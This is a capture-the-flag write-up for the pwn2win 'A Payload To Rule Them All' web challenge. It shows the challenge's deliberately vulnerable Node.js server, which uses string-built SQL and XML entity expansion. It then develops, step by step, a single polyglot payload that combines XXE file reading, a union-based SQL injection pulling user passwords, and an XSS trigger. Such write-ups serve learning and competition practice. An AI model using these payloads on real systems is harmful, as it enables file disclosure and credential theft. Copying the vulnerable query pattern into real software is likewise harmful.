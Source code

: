 ```yaml
---
title: "pwn2win: A Payload To Rule Them All"
date: 2020-06-08
tags: [web]
draft: false
---
```

This one gives us a post endpoint for a payload that needs to exploit xxe, xss,
and sqli (sql injection), as well as the code for the server:

```server.js
const express = require("express")
const app = express()
const bodyParser = require("body-parser")
const port = 31337
const { execFile } = require("child_process")
const fs = require("fs")
const rateLimit = require("express-rate-limit");
app.use(express.static("static"))
app.use(bodyParser.urlencoded({ extended: true }))
const limiter = rateLimit({ windowMs: 10 * 60 * 1000, max: 50 });
// 15 minutes  // limit each IP to 100 requests per windowMs 
app.use('/', limiter);
app.post('/', (req, res) => {
    const test_payload = execFile("/usr/sbin/gosu", ["gnx", "/home/gnx/script/test_payload.js",
        req.body.payload], (error, stdout, stderr) => {
            if (stdout.toString().trim() === "parabens hackudo") {
                res.send(process.env.FLAG)
            } else { 
                res.send("nope") 
            }
        }); 
        console.log(req.body.payload)
})
app.get('/source', (req, res) => {
    var out = "/usr/src/app/index.js :\n\n" +
        fs.readFileSync("/usr/src/app/index.js").toString() +
        "\n\n"
    out += "/home/gnx/script/test_payload.js :\n\n" +
        fs.readFileSync("/home/gnx/script/test_payload.js") +
        "\n\n"
    res.send(out)
})

app.listen(port, '0.0.0.0', () => console.log(`Chall rodando em http://localhost:${port}`))
```

as well as the `test_payload.js` referenced above:

```test_payload.js
#!/usr/bin /env node
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")

function test_xxe(payload) {
    try {
        var my_secret = Math.random().toString(36).substring(2);
        fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
        var doc = libxml.parseXml(payload, { noent: true, nonet: true })
        return doc.toString().includes(my_secret)
    } catch (e) { return false }
}

async function test_xss(payload) {
    try {
        const browser = await puppeteer.launch({
            args: ['--no-sandbox', '--disable-setuid-sandbox', '--disable-dev-shm-usage', '--disable-accelerated-2d-canvas', '--no-first-run', '--no-zygote', '--single-process', '--disable-gpu']
        })
        const page = await browser.newPage()
        page.setDefaultNavigationTimeout(1000);
        payload = sanitizeHtml(payload, { allowedTags: [] })
        await page.goto(`data:text/html,<script>${payload}</script>`)
        const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )")
        // vlw herrera
        await browser.close()
        return check
    } catch (error) {
        console.error(error)
    }
}

async function test_sqli(payload) {
    var connection = mysql.createConnection({
        host: process.env.MYSQL_HOST || "127.0.0.1",
        user: process.env.MYSQL_USER,
        password: process.env.MYSQL_PASSWORD,
        database: process.env.MYSQL_DATABASE,
        charset: 'utf8',
        dialectOptions: { collate: 'utf8_general_ci', },
    })
    const query = util.promisify(connection.query).bind(connection)
    connection.connect()
    const users = await query("SELECT * from users")
    try {
        const sqli = await query(`SELECT * from posts where id='${payload}'`)
        await connection.end()
        return JSON.stringify(sqli).includes(users[0]["password"])
    } catch (e) {
        return false
    }
}

function main(args) {
    var xss = test_xss(args[0])
    var sqli = test_sqli(args[0])
    var xxe = test_xxe(args[0])
    Promise.all([xss, sqli]).then(function (values) {
        if (values[0] && values[1] && xxe) {
            console.log("parabens hackudo")
        } else {
            console.log("hack harder")
        }
        process.exit(0)
    })
}
main(process.argv.slice(2))
```

I realized I'd need something that parsed as valid js, valid sqli, and valid
xml, to some extent, which was the hardest part of the puzzle.

The xml attack was pretty easy to test locally and pretty easy to come up with.
As simple as this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
```

Next, getting some validly parsing sql by ending the quote, and tacking
a comment on the end with `#`:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
<!--' union select password from users limit 1;#-->
```

It was a bit of a struggle to get the js to work (need to inject `xss=true;`), even with the assist of
sanitize-html. The sanitize-html call basically stripped out all of the xml 
and comments, which was mostly helpful, so something like this almost works:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>;xss=true;//&xxe;</r>
<!--' union select password from users limit 1;#-->
```

But you end up with something like: `]>;xss=true;//&xxe;` and the `];` doesn't
run.

I spent a while struggling with this piece, until a teammate suggested trying
another entity to inject a comment around the garbage:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password from users;#-->
```

And the last piece was figuring out how many columns was in the posts table, so
we could match the union injection--took a few tries, but I just tacked on `,1`
until it ran and gave the flag. I think it was 4 columns, but don't remember at
this point. The `limit 1` isn't necessary but it seemed kind not to pull in the whole
table cartesian product ;) --the result was something like this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password, 1, 1, 1 from users limit 1;#-->
```

Note: it needs to be all on one line, but I broke it up for visibility.
